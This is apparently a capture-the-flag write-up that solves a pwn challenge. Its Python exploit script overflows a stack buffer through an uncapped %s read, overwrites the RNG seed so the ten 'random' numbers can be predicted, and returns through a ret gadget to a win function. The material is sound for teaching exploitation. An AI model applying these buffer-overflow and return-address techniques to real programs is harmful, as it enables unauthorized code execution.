the challenge description says we have to guess ? i dont think so :P<br>
<br>

first we anayze the binary and rename variables<br>
<br>

we have a win()  named potato :D <br>
<br>
<br>

here we have the overflow vuln the format specifier `%s` does not cap the amount of bytes we can input.<br>
<br>

we can overflow the Stack but how can we reach the ret;<br>
<br>
we have to `guess` the 10 numbers that are generated and transformed here<br>
<br>
take a quick look into the rc4() <br>
we copy paste this and add it to our Exploit Script.

```py
def rc4(randNumber,seed):
    tmp = (seed + randNumber >> 0x1f) >> 0x18
    return (seed + randNumber + tmp & 0xff) - tmp
```
<br>

ok now how can we guess the 10 numbers ? <br>
We know that the numbers are generated by the `c` implementation of a `pseudo random number generator` the `rand()`.
The `rand()` and the `srand()` are related to each other.<br>
Without the `srand()` function, the `rand()` function would always generate the same number each time the program is run.<br>

this first call to `rand()` will allways generate the same number.<br>
<br>
that means we know the seed and can generate the correct numbers by ourself.<br>

```
# this will import the libc rand() function to our python script
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')
```


but even better we dont need to generate the correct seed because we overwrite the seed variable anyways with our Bof Payload <br>

the seed is initiated here<br>


after our Palyload is read in we can see the the seed is overwritten<br>
<br>
so we simply set the seed to 0x1337<br>

```
    payload = b''
    payload += b'A'*112                       #fill the 112 bytes of the inputbuffer
    payload += p64(seed)                      #overflow the seed
```
now we generate 10 randome numbers with the `0x1337` seed

```py
for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')
```

and here is the full Script

```py
    seed = 0x1337
    libc.srand(seed)


    payload = b''
    payload += b'A'*112
    payload += p64(seed)                                 #set thee seed 
    payload += p64(0x1122334455667788)*2
    payload += p64(rop.find_gadget(['ret'])[0])          #return to fix Stack alignment
    payload += p64(elf.symbols['potato'])                #jump to the potato()


    sl(payload)

    rc('Guess my numbers!')
    sleep(1)

    for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')

    inter()

```

care for Stack alignment otherwhise we end up here in a `SIGSEGV` because the `movaps` instruction needs a 0x10 byte aligned Stack<br>


```
Moves a double quadword containing four packed single-precision floating-point values from the source operand (second operand) to the destination operand (first operand). This instruction can be used to load an XMM register from a 128-bit memory location, to store the contents of an XMM register into a 128-bit memory location, or to move data between two XMM registers.

When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.
```
source: https://c9x.me/x86/html/file_module_x86_id_180.html<br>


<br>


